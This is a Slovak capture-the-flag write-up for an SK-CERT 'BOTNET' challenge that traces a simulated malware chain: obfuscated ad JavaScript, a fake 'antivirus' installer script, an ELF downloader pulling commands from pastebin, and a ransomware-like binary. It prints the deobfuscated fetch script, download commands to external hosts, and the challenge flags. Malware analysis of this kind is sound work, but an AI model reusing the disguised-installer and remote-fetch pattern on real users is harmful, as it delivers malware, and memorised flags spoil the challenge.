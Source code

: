 # SK-CERT - BOTNET
>Dostali sme hlásenie že na stránke ventilsro.github.io vyskakuje podozrivé okno. Mohli by ste to skontrolovať? <br/>
Reported Difficulty: 2

## 1 Záhadné okno
>Nietorý použivatelia nám občas nahlásia vyskakovacie okno v strede obrazovky, je potrebné túto aktivitu preveriť.

Pozrieme sa na https://ventilsro.github.io/, zvyčajne prvý flag býva v page source, ale v tomto prípade nič tam nie je. Zaujímavé ale vyzerá ten javascript:

![](images/2022-03-05-14-24-18.png)

Pozrieme sa naň a máme prvý flag:

![](images/2022-03-05-14-24-31.png)

```
flag: SK-CERT{c4n_y0u_f1nd_17}
```

## 2 Takže pre toto!
>Keď už vieme ako funguje javascript, Musíme zistiť či náhodou neobsahuje niečo škodlivé.

Ten java script vyzerá podozrivo, pravdepodobne bol použitý nejaký obfuscator, skúsime hľadať online, napríklad tento: http://www.addressmunger.com/javascript_obfuscator/index.php
Vložíme tam náš javascript, dva krát dáme decode a máme šťastie že, Arci-Zločan použil default obfuscator.

![](images/2022-03-05-14-27-58.png)

Je aj iná cesta, brute-force debug, lebo keby Arci-Zločan použil nejaký svoj obfuscator tak by sme nemali také šťastie. Na brute-force stačí použiť Chrome dev tools, dát tam nejaký break point a skúšať čo sa udeje:

![](images/2022-03-05-14-28-19.png)

Po niekoľkých pokusoch sme odhalili náš skutočný javascript:

![](images/2022-03-05-14-28-29.png)

Javascript: 
```
function process(text){document.getElementById("data_from_int").innerHTML=text}var ad=0;if(navigator.appVersion.indexOf("Linux")){ad=Math.floor(Math.random()*50+1)}else{ad=Math.floor(Math.random()*50+51)}fetch('https://int3.sk/reklama'+ad+'.txt').then(response=>response.text()).then(text=>process(text))
```

Síce žiadny tam flag nie je, ale z kódu vidíme, že sa reklama ťahá z `'https://int3.sk/reklama'+ad+'.txt'`, kde `ad` je náhodne číslo medzi `1` a `101`, tak skúsme...Zdá sa, že Arci-Zločan chce aby sme skúsili 100 rôznych adries či sa v niektorej neukrýva ďalší flag… skúsime našu vernú zbraň: `curl https://int3.sk/reklama[1-100].txt` a máme ďalší flag:

![](images/2022-03-05-14-31-18.png)

```
flag: SK-CERT{l3g17_4nt1v1ru5}
```

## 3 Antivirus 3000
>Reklama, a ponúka stiahnutie antivírusu? Podozrivé! Je potrebné zistiť čo reálne stahujeme.

Z predchádzajúceho kroku vidíme, že reklama číslo 43 okrem flagu, ukrýva aj odkaz na nejaký shell script, tak sa poďme na to pozrieť: `curl http://194.182.66.53/antivirus3000_installer.sh` a máme hneď ďalší flag:  

![](images/2022-03-05-14-34-56.png)

```
flag: SK-CERT{1n574l_17_4lr34dy}
```

## 4 Elf
>Dostali sme ďalšie hlásenie že niekoľko použivatelov tejto stránky malo poškodený počítač, je potrebné vyšetrovať ďalej

Z predchádzajúcej úlohy vidíme, že shell script niečo stiahne z `https://rentry.co/vpvqs/raw` a uloží to ako súbor `antivirus3000`. Sťahujeme ten súbor a zisťujeme, že je to štandardná Linuxová binárka. 
```
$ file antivirus3000 
antivirus3000: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b428836a750d2fd0a3bfccf09080250e5372b0fe, for GNU/Linux 3.2.0, not stripped
```
Po spustení binárky žiadny output ale cez Wireshark vidíme, že komunikuje s `pastebin.com`, tak pustime Burp a skúsime zachytiť tú požiadavku. 

![](images/2022-04-19-11-11-32.png)

*Keďže je to https komunikácia, museli sme pridať Burp certifikát do trusted root certificate store.*

Tu vidíme Request a Response:

![](images/2022-04-19-11-12-59.png)

Stiahneme si ten `runner.tar` a vidíme tam `flag.txt`.. ktorý ale nie je pre tuto úlohu, asi bude pre jednu z ďalších.

Púšťame sa do študovania forenznej analýzy `ELF`. `Strings` nám nezistil žiadny flag, jedine že je binárka používa `curl`, čo znamená, že asi otvára nejaké sieťové spojenie niekam.
Skúšame `strace -o trace.out ./antivirus3000` ani to nám nič nehovorí.

Ďalšie hodiny som strávil s debugovaním binárky, stepovaním inštrukcií cez gdb a Ghidra, aj keď v tom moc skúsenosti nemám.
Zaujal ma kód v ktorom sa generuje url pre curl: 
```
curl_easy_setopt(local_18,0x2712,local_268);
```

![](images/2022-04-19-14-24-14.png)

Snažil som sa nejak zistiť čo obsahuje `local_286` a po hodinách `ni`, `si`, `print $rdi` a podobných vecí, ktoré len tak-tak tuším čo znamenajú sa mi podarilo dostepovať pred call tej funkcie, kde som si pozrel obsah pamäte na `[RBP + -0x260]`

![](images/2022-04-19-14-29-03.png)

a zobrazením obsahu pamäte som získal známy string, ktorý bol akceptovaný!

![](images/2022-04-19-14-31-07.png)

```
flag: SK-CERT{p45t3b1n_15_hug3}
```

P.S. mohol som toto vyriešiť aj skôr, keby som si uvedomil, že 
```
5555555555a5 88 94 05        MOV        byte ptr [RBP + RAX*0x1 + -0x260],DL
             a0 fd ff ff

```
je to vlastne adresa pre `local_268[int(conter)]`, nie pre cely string `local_268`. Ja som sledoval obsah pamäti pomocou `x/s $rbp+$rax*0x1-0x260` a neuvedomil som si, že pozerám iba posledný byte:

```
 (gdb)x/s $rbp+$rax*0x1-0x260
0x7fffffffdcbb: "4"
 (gdb)x/s $rbp-0x260
0x7fffffffdc90: "https://pastebin.com/raw/9gQzJk4j#SK-CERT{p4"
```

## 5 Vykonané príkazy
>Zistili ste, že program spúšťa príkazy z pastebin. Teraz treba zistiť aké konkrétne.

Tu som použil flag, ktorý som získal na začiatku predchádzajúcej úlohy, kde som odchytil komunikáciu s pastebin a stiahol `runner.tar`, ktorý obsahoval `flag.txt`

```
flag: SK-CERT{4n0th3r_f1lthy_3lf}
```

## 6 Ďalšia binárka
>Ďalší binárny súbor? Pustite sa do analýzy

Po spustení `./runner` sa nič nedeje... niet divu. Otvárame `runner` v Ghidre a pozeráme `main` funkciu:

![](images/2022-04-19-16-07-10.png)

Podlá analýzy main, kód otvára aktuálny adresár, a ak sa tam nachádza adresár menom "dRIA2HpoQrC24jEoww4m" tak ho zašifruje. 
Vyskúšame vytvoriť adresár `dRIA2HpoQrC24jEoww4m` a spustiť `./runner`:

![](images/2022-04-19-16-18-31.png)

Takže, takto sa dostaneme ďalej do `encrypt_file` funkcie, ktorá podlá analýzy nerobí nič zaujímavé sama o sebe, otvára adresár, číta meno adresára a vola ďalšiu funkciu `encrypt`, ktorá už vyzerá zaujímavo, najmä `for` loop ktorý vyzerá podozrivo, ako z predošlých úloh kde sa generuje flag:

![](images/2022-04-19-16-27-23.png)

Skúšame krokovať cez `gdb`, nastavíme break point najprv na `main`, potom na `envrypt_file` a nakoniec sa dostaneme do `encrypt` a krokujeme do toho `for` loopu, a tento krát využijeme príkaz na vykonanie viac krokov naraz:

````
python [gdb.execute('ni') for x in range(12)]
````
Po niekoľkých opakovaní úspešne získavame ďalší flag:

![](images/2022-04-19-16-09-26.png)

```
flag: SK-CERT{th3_k3y}
```

## 7 Dekryptor
>Z analýzy sme zistili že sa jedná o ransomvér a klúč je pevne zakódovaný v zdrojovom kóde. Je potrebné napísať dekryptor a dekryptovať následovné súbory: https://drive.google.com/file/d/1Iv_Bl3yI8Pncd5iq3xaGdqnaScVwTO3Q/view?usp=sharing

Tak toto už si netrúfam...možno nabudúce.

